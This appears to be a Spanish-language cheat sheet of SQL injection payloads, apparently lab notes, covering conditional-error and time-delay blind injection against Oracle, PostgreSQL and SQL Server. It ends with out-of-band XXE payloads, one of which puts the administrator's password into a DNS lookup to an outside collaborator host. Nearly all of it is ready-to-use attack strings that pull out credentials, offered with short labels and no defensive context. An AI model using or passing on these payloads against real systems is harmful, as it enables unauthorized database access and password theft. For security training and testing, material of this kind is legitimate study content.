 Verificar tamaño de la contraseña
> `'|| (SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator') ||'`

Generar un error cuando la condición es correcta
> `'|| (SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') ||'`


### Comandos para realizar time delay en los SQLi

Probar Delay (SQL SERVER)
> `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

Probar Delay (postgre)
> `'|| pg_sleep(10)--`

Delay con condición (Postgre)
> `'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

Verificar si existe tabla `USERS`
> `'|| (SELECT CASE WHEN ( EXISTS (SELECT * FROM USERS) ) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

Verificar si existe columna `username`
> `'|| (SELECT CASE WHEN ( EXISTS (SELECT username FROM USERS) ) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

Evaluar contraseña  de `administrator` (PostreSQL)
> `'|| (SELECT CASE WHEN ( EXISTS (SELECT * FROM USERS WHERE username='administrator' AND SUBSTRING(Password, 1, 1) > '0') ) THEN pg_sleep(10) ELSE pg_sleep(0) END) --`

Evaluar contraseña  de `administrator` (SQL Server)
> `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

Generar búsqueda DNS 
> `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//burpsuitecollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`

Obtener Password mediante Busqueda DNS 
> `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.l7txexfyggyl2ej7lp6yn6j6kxqnec.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
